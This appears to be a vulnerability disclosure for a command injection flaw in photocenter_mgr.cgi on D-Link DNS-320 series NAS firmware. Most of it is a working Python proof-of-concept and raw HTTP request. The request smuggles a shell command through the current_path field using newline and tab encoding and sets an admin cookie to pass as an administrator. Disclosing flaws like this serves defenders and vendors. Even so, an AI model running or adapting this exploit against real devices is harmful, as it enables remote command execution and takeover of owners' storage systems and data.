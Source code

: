 # Overview
Firmware download website:
 [https://ftp.dlink.ru/pub/NAS/](https://ftp.dlink.ru/pub/NAS/)

# Affected version
DLINK DNS-320/320L/321/323/325/327L  all firmware version
# Vulnerability details
The DLINK nas DNS-320/320L/321/323/325/327L  all firmware version has a command injection vulnerability in cgi_del_photo function of the file /cgi-bin/photocenter_mgr.cgi.  The variable `current_path` is passed from a POST request and is assigned to `v6` via the `sprintf` function at line 29. It is then passed into `v5` and invoked by the `system` command,  the `SpecSymbol2BackSlash` function did not work  which leads to command execution. ![image.png](https://cdn.nlark.com/yuque/0/2024/png/2771021/1723392625581-d85c7a6a-a8fd-4331-a6ab-5ff62b367c3a.png#averageHue=%23fdfdfc&clientId=u7ce054dc-824f-4&from=paste&height=320&id=ud7cba5fe&originHeight=504&originWidth=923&originalType=binary&ratio=1.125&rotation=0&showTitle=false&size=52285&status=done&style=none&taskId=uc65e17c8-0192-4770-b6fe-ffb619f4649&title=&width=585.5555419921875)
# POC
```python
import requests

url = "http://192.168.0.32/cgi-bin/photocenter_mgr.cgi"
headers = {
    "Host": "192.168.0.32",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/x-www-form-urlencoded",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.0.32",
    "Connection": "close",
    "Referer": "http://192.168.0.32/photo_center/index.html",
    "Cookie": "username=admin",
    "Priority": "u=1"
}

data = "cmd=cgi_del_photo&current_path=%0atouch%09/tmp/555%0a&photo_name=/tmp/111&move_from=/tmp/333&rp=10&page=10&r=10&date=19&album_name=/tmp/"
response = requests.post(url, headers=headers, data=data)
print(response.text)

```

```
POST /cgi-bin/photocenter_mgr.cgi HTTP/1.1
Host: 192.168.0.32
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 110
Origin: http://192.168.0.32
Connection: close
Referer: http://192.168.0.32/photo_center/index.html
Cookie: username=admin
Priority: u=1

cmd=cgi_del_photo&current_path=%0atouch%09/tmp/555%0a&photo_name=/tmp/111&move_from=/tmp/333&rp=10&page=10&r=10&date=19&album_name=/tmp/
```


